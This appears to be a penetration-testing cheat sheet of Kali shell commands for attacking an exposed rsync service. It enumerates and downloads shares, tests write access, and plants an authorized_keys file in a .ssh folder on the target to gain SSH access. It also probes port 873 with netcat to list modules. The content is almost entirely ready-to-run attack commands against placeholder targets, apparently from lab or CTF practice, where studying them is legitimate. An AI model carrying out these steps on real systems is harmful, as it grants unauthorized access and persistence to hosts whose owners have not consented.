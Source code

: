 
#### SSH key upload

```bash - kali
rsync rsync://$TARGET
```

```bash - kali
rsync rsync://$TARGET/$FOLDER
```

Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/$FOLDER ./rsyncfiles
```

Test to see if we can upload files:

```bash - kali
echo "test" > test
```

```bash - kali
rsync -av test.txt rsync://$TARGET/$FOLDER
```

```bash - kali
rsync -av --list-only rsync://$TARGET/$FOLDER
```

Next, we'll create ssh keys and upload so we can ssh into target:

```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```

Change the public key to authorized_keys

```bash - kali
mv id_rsa.pub authorized_keys
```

Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/$FOLDER/
```

```bash - kali
ssh $USER@$TARGET
```

---

#### nc enumeration

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
#list
```


Now lets try to enumerate

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
$FOLDER
```

`@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g`    <--- This means you need the password